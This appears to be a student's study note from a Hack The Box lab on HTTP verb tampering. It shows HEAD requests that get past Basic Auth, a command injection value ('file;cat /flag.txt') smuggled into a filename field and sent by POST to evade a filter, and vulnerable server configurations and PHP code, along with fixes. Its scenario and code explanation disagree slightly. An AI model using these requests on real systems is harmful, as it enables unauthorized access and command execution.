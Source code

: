 ### Content
* [[#Overview]]
* [[#HTTP Verbs]]
* [[#Check allowed methods by a server]]
* [[#Scenarios]]
	* [[#Bypassing Basic Authentication]]
	* [[#Bypassing Security Filters]]
* [[#Verb Tampering Prevention]]
	* [[#Insecure Configuration]]
	* [[#Insecure Coding]]
---
## Overview
[HTTP Verb Tampering](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/03-Testing_for_HTTP_Verb_Tampering). 
* This can be exploited by sending malicious requests using unexpected methods, which may lead to bypassing the web application's authorization mechanism or even bypassing its security controls against other web attacks.
* **Two things can cause the HTTP verb tampering vulnerability**:
	1. ***Insecure web server configurations***. A web server's authentication configuration may be limited to specific HTTP methods, which would leave some HTTP methods accessible without authentication.
	2. ***Insecure Coding***. This can occur when a web developer applies specific filters to mitigate particular vulnerabilities while not covering all HTTP methods with that filter.
* Automated tools can spot the HTTP verb tampering that has been caused by insecure web server configurations, While the other one needs active testing. 
---
## HTTP Verbs

| Method                                                                         | Description                                                                                                |
| ------------------------------------------------------------------------------ | ---------------------------------------------------------------------------------------------------------- |
| [`GET`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/GET)         | Requests a representation of the specified resource                                                        |
| [`HEAD`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/HEAD)       | Asks for a response identical to a `GET` request, but without a response body                              |
| [`OPTIONS`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/OPTIONS) | Shows different options accepted by a web server, like accepted HTTP verbs                                 |
| [`TRACE`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/TRACE)     | Performs a message loop-back test along the path to the target resource                                    |
| [`PUT`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/PUT)         | Writes the request payload to the specified location                                                       |
| [`DELETE`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/DELETE)   | Deletes the specified resource                                                                             |
| [`POST`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/POST)       | Submits an entity to the specified resource, often causing a change in state or side effects on the server |
| [`PATCH`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/PATCH)     | Applies partial modifications to a resource                                                                |
| [`CONNECT`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/CONNECT) | Establishes a tunnel to the server identified by the target resource                                       |

---
## Check allowed methods by a server
``` bash
k1ng0a21r@htb[/htb]$ curl -i -X OPTIONS http://SERVER_IP:PORT/

HTTP/1.1 200 OK
Date: 
Server: Apache/2.4.41 (Ubuntu)
Allow: POST,OPTIONS,HEAD,GET
Content-Length: 0
Content-Type: httpd/unix-directory
```
---
## Scenarios
### Bypassing Basic Authentication
* `401 Unauthorized`
``` HTTP
GET /admin/reset.php? HTTP/1.1
```
* `Accepted`
``` HTTP
HEAD /admin/reset.php? HTTP/1.1
```
### Bypassing Security Filters
* Before HTTP verb tampering
``` HTTP
GET /index.php?filename=file%3b+cat+/flag.txt+ HTTP/1.1
....[SNIP]
```
Results on response:
``` HTML
h4><a href='test'>test</a></h4></li></ul>Malicious Request Denied!</ul>
```
* After HTTP verb tampering
``` HTTP
POST /index.php HTTP/1.1
...[SNIP]
filename=file%3b+cat+/flag.txt+
```
Result on response:
``` HTML
<h4><a href='test'>test</a></h4></li></ul>HTB{b3_v3rb_c0n51573n7}</ul>
```
---
## Verb Tampering Prevention
### Insecure Configuration
* `Apache` Vulnerable configurations.
 Located in the site configuration file (e.g. `000-default.conf`), or in a `.htaccess`.
``` XML
<Directory "/var/www/html/admin">
    AuthType Basic
    AuthName "Admin Panel"
    AuthUserFile /etc/apache2/.htpasswd
    <Limit GET>
        Require valid-user
    </Limit>
</Directory>
```
the `Require valid-user` setting will only apply to `GET` requests, leaving the page accessible through other methods.
* `Tomcat` Vulnerable configurations.
  Located in the `web.xml` file for a certain Java web application.
``` XML
<security-constraint>
    <web-resource-collection>
        <url-pattern>/admin/*</url-pattern>
        <http-method>GET</http-method>
    </web-resource-collection>
    <auth-constraint>
        <role-name>admin</role-name>
    </auth-constraint>
</security-constraint>
```
* `ASP.NET` Vulnerable configurations.
  Located in the `web.config` file of a web application.
``` XML
<system.web>
    <authorization>
        <allow verbs="GET" roles="admin">
            <deny verbs="GET" users="*">
        </deny>
        </allow>
    </authorization>
</system.web>
```
* If we want to specify a single method, we can use safe keywords:
	* `LimitExcept` in Apache 
	* `http-method-omission` in Tomcat
	* `add`/`remove` in ASP.NET
* We should generally `consider disabling/denying all HEAD requests` unless specifically required by the web application.
### Insecure Coding
Infected code
``` PHP
if (isset($_REQUEST['filename'])) {
    if (!preg_match('/[^A-Za-z0-9. _-]/', $_POST['filename'])) {
        system("touch " . $_REQUEST['filename']);
    } else {
        echo "Malicious Request Denied!";
    }
}
```
* The code checks `$_REQUEST['filename']` but validates `$_POST['filename']`. An attacker can bypass the validation by sending the malicious input through `$_GET`.
* The fix would be to consistently use only `$_POST` for both validation and usage
---